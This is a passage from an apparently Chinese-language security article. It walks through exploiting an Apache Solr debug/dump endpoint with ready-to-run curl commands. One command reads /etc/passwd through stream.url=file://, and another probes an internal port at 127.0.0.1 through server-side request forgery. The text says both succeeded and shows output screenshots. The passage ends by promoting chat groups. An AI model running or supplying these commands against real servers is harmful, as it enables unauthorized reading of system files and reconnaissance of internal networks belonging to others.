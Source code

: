 命令行执行命令：  
curl -i -s -k '  
http://  
目标  
ip:  
端口/solr/数据库名/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd  
'  
  
成功读取敏感文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVDTIzLOKYuss007vTIWV11jNo2yfQUWRPUl52eZAlyY9N3TVzeWiclicw/640?wx_fmt=png&from=appmsg "")  
  
5.  
内网探针  
  
命令行执行命令：  
curl -i -s -k '  
http://  
目标  
ip:  
端口  
/solr/  
数据库名  
/debug/dump?param=ContentStreams&stream.url=http://127.0.0.1:80  
'  
  
成功探针到目标内网  
80  
端口信息：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVuh4JSe6fwicnibqkPo455y10YjMCRWqZOYfXdw1m2VxIfAoxRH4epeQA/640?wx_fmt=png&from=appmsg "")  
  
查看返回信息，发现在  
80  
端口部署了  
nginx  
服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIkzcpoAcL1noxBRCZxDPvEVQHZHpODqrAmEcVJgIYBBjlTuteSvRgGviacJnicrEooiblmV0ibxIUvtcg/640?wx_fmt=png&from=appmsg "")  
  
网络安全技术交流群：wx加我好友，备注“进群”  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b9ibb0kbHCImS2ldibAAaXVDGRKsYsrwDjQmnYKiauv2Vz2eknbKu3CoVokgYhb09xbGUpBxLqSVsdJBDmic1oiclmA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
QQ群：708769345  
  
  
